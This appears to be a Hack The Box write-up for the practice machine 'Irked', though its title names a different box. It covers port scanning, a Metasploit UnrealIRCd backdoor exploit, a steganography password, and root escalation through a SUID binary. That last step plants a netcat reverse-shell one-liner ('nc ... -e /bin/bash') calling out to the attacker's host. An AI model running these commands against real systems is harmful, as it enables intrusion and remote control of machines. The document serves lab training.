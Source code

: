 ![HTB Teacher (10.10.10.153) Write-up](./screenshots/irked.jpeg)

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.117
```
```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8000/tcp  open  http-alt
8067/tcp  open  infi-async
46040/tcp open  unknown
65534/tcp open  unknown
```
```console
nmap -oN irked.nmap -p22,80,111,6697,8000,8067,46040,65534 -sC -sV -v 10.10.10.117
```
```
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open   http        Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open   rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          35800/tcp  status
|_  100024  1          56850/udp  status
6697/tcp  open   ircs-u?
|_irc-info: Unable to open connection
8000/tcp  closed http-alt
8067/tcp  open   infi-async?
|_irc-info: Unable to open connection
46040/tcp closed unknown
65534/tcp open   unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## PART 2 : Port Enumeration

1. Open http://10.10.10.117 (default: __port 80__)
   - Landing Page: 

     ![Landing Page](./screenshots/80_irked.png)

   - Page Source:
     ```html
     <img src=irked.jpg>
     <br>
     <b><center>IRC is almost working!</b></center>
     ```
   __Notes__:
   - The page seems to be pointing us to the __*IRC service*__ on __port 6697__
   - The pages also only contains an image (__*irked.jpg*__)
   - Running `gobuster` and `nikto` doesn't seem to yield interesting results.

2. Attempt exploitation of the IRC service (__port 6697__)
   - UnrealIRCD 3.2.8.1 Backdoor Command Execution ([CVE-2010-2075](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor))
     ```console
     msfconsole
     
     use exploit/unix/irc/unreal_ircd_3281_backdoor

     show options
     # Name    Current Setting  Required  Description
     # ----    ---------------  --------  -----------
     # RHOSTS                   yes       The target address range or CIDR identifier
     # RPORT   6667             yes       The target port (TCP)

     set RHOSTS 10.10.10.117
     set RPORT 6697

     run
     # [*] Started reverse TCP double handler on 10.10.15.122:4444 
     # [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
     #     :irked.htb NOTICE AUTH :*** Looking up your hostname...
     # [*] 10.10.10.117:6697 - Sending backdoor command...
     # [*] Accepted the first client connection...
     # [*] Accepted the second client connection...
     # [*] Command: echo 4JezGWGL0WskDMqt;
     # [*] Writing to socket A
     # [*] Writing to socket B
     # [*] Reading from sockets...
     # [*] Reading from socket A
     # [*] A: "4JezGWGL0WskDMqt\r\n"
     # [*] Matching...
     # [*] B is input...
     # [*] Command shell session 1 opened (10.10.15.122:4444 -> 10.10.10.117:47923)...
     ```
   - While inside shell:
     ```console
     id
     # uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
     
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash

     cd /home/djmardov
     cd Documents
     ls -lah
     # drwxr-xr-x  2 djmardov djmardov 4.0K May 15  2018 .
     # drwxr-xr-x 18 djmardov djmardov 4.0K Nov  3 04:40 ..
     # -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
     # -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt     

     cat .backup
     # Super elite steg backup pw
     # UPupDOWNdownLRlrBAbaSSss
     ```
   __Notes__:
   - There exists a user named __djmardov__
   - __*user.txt*__ is readable only as __djmardov__ or as __root__
   - __*.backup*__ contains a steg password
     - Maybe it could be used on __*irked.jpg*__ from the http service

---

## PART 3 : Generate User Shell
1. Run __*irked.jpg*__ on online steg tools
   - https://futureboy.us/stegano/decinput.html
     
     ![Irked Steg](./screenshots/80_irked_steg.png)

   - Output:
     ```
     Kab6h+m+bbp2J:HG
     ```
2. Login via SSH as user __djmardov__
   ```console
   ssh -l djmardov 10.10.10.117
   # djmardov@10.10.10.117's password: Kab6h+m+bbp2J:HG
   ```
   While inside shell:
   ```console
   cat ~/Documents/user.txt
   # 4a66a78b12dc0e661a59d3f5c0267a8e
   ```

---

## PART 4 : Privilege Escalation (djmardov -> root)
1. Check for SUID files owned by root
   ```console
   find / -uid 0 -perm -4000 -type f 2>/dev/null
   # ...
   # /usr/bin/viewuser
   # ...
   ```
2. Try to run __*/usr/bin/viewuser*__
   ```
   This application is being devleoped to set and test user permissions
   It is still being actively developed
   (unknown) :0           2019-04-27 13:17 (:0)
   djmardov pts/0        2019-04-27 13:18 (10.10.15.122)
   sh: 1: /tmp/listusers: not found
   ```
   __Notes__:
   - __*viewuser*__ runs __*/tmp/listusers*__
     - The file does not yet exist in the system
     - __*/tmp/listusers*__ will be run as root no matter who owns it
3. Create payload:
   ```console
   echo "nc 10.10.15.122 4444 -e /bin/bash" > /tmp/listusers
   ```
4. Establish __root__ shell:
   1. Local terminal:
      ```console
      nc -lvp 4444
      ```
   2. __djmardov__ shell:
      ```console
      /usr/bin/viewuser
      ```
   3. netcat listener:
      ```console
      id 
      # uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
      
      find / -name root.txt
      # /root/root.txt

      cat /root/root.txt
      # 8d8e9e8be64654b6dccc3bff4522daf3
      ```
